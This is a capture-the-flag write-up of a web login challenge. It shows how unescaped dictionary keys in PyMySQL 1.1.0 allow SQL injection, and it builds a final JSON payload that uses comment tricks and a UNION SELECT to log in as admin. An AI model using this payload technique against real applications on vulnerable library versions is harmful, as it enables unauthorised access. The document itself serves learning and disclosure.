 UBook: Web - viennabootcamp 2024 (0 solve, upsolved)
===
Upsolved challenge during a bootcamp with some european national teams 
## The challenge
The challenge is a login system. Login as admin gives you the FLAG.
Seems it doesn't 
## Interesting points
### Unserialize
The challenge have a `safe_unserialize` function to manage the json request
```python
def safe_unserialize(obj: any) -> any:
    """Unpickle the object safely. Thx copilot <3"""
    if isinstance(obj, dict):
        return {User.to_user(k): safe_unserialize(v) for k, v in obj.items()}
    elif isinstance(obj, list):
        return [safe_unserialize(v) for v in obj]
    elif isinstance(obj, str):
        return User.to_user(obj)
    else:
        return obj

```
### User class
This is the user class
```python
class User:
    """User class to handle user data."""
    def __init__(self, name: str, password: str, country: str):
        self.name = name
        self.password = password
        self.country = country

    def get(self, attr: str) -> str:
        return getattr(self, attr, None)

    def __repr__(self) -> str:
        return f'{self.name},{self.country}'
    
    def __str__(self) -> str:
        return f'{self.name},{self.country}'
    
    @staticmethod
    def to_user(s: str) -> 'User':
        # we don't want XSS, so we allow only safe symbols here
        return User(*s.split(',')) if re.match('^[\/\w:\.^\*@]{4,10},[\/\w:\.^\*@]{7,},[A-Z]{2}$', s) else s
```
### Query
All query are done by this function (using PyMySQL==1.1.0)
```python
def query_handler(sql, cur, params=[]):
    try:
        cur.execute(sql, params)
    except Exception as e:
        cur.close()
        app.logger.critical(e)
        abort(500)
    
    return cur
```

Login Query:
```python
[...]
QUERY_GET = "SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = %s)"
[...]
cur = query_handler(QUERY_GET, cur, (user,))
[...]
```
## Exploit
So we have to do a SQLi of course but how? Every query is prepared.

Let me check the lib:

This is the `mogrify` function for escape
```python
def mogrify(self, query, args=None):
    conn = self._get_db()

    if args is not None:
        query = query % self._escape_args(args, conn)

    return query
```

So... this is not a real prepared query. Let's see the `_escape_args` function

```python
def _escape_args(self, args, conn):
    if isinstance(args, (tuple, list)):
        return tuple(conn.literal(arg) for arg in args)
    elif isinstance(args, dict):
        return {key: conn.literal(val) for (key, val) in args.items()}
    else:
        # If it's not a dictionary let's try escaping it anyways.
        # Worst case it will throw a Value error
        return conn.escape(args)
```

Oh
return `{key: conn.literal(val) for (key, val) in args.items()}`

The key are not escaped!!!! (after CTF the author([@lavish](https://github.com/lavish)) links his [advisory](https://github.com/advisories/GHSA-v9hf-5j83-6xpp), not found during event :/ )

So if we send this payload we have a syntax error (we can send any json object of course):
```json
[{
    "user":"aaaaa",
    "password":"aaaaa",
    "country":"aaaa"
}]
```
```
(1064, 'You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near \'\'user\': "\'aaaaa\'", \'password\': "\'aaaaa\'", \'country\': "\'aaaa\'"})\' at line 1')
```

Okay, obv the curly brackets :(

After a ***big*** amount of hours of search on the internet, the query `mysql syntax curly brackets` I landend to this page [https://dev.mysql.com/doc/refman/8.4/en/expressions.html](https://dev.mysql.com/doc/refman/8.4/en/expressions.html)

Yes, yes, yes i'm noob in google search

## Final Payload

The `__repr__` of user help us to remove the quotes. So start from this

```json
{
    "aaaa,aaaaaaa,AA": null
}
```

```sql
SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = {aaaa,AA: 'NULL'})
```

We need some comments for the commas

```json
{
    "aa/*aa,aaaaaaa,AA": null,
    "*/": null
}
```
```sql
SELECT * FROM users WHERE (BINARY CONCAT(name, ',', country) = {aa/*aa,AA: 'NULL', '*/': 'NULL'})
```

YES! Null is an SQL key and not a string. Let's pull all togheter

```json
{
"aa/*aa,aaaaaaa,AA":null,
"*/":"}) UNION SELECT 1,1,SHA2(1,256),1,1 -- ",
"password":"1"
}
```

Enjoy!!!



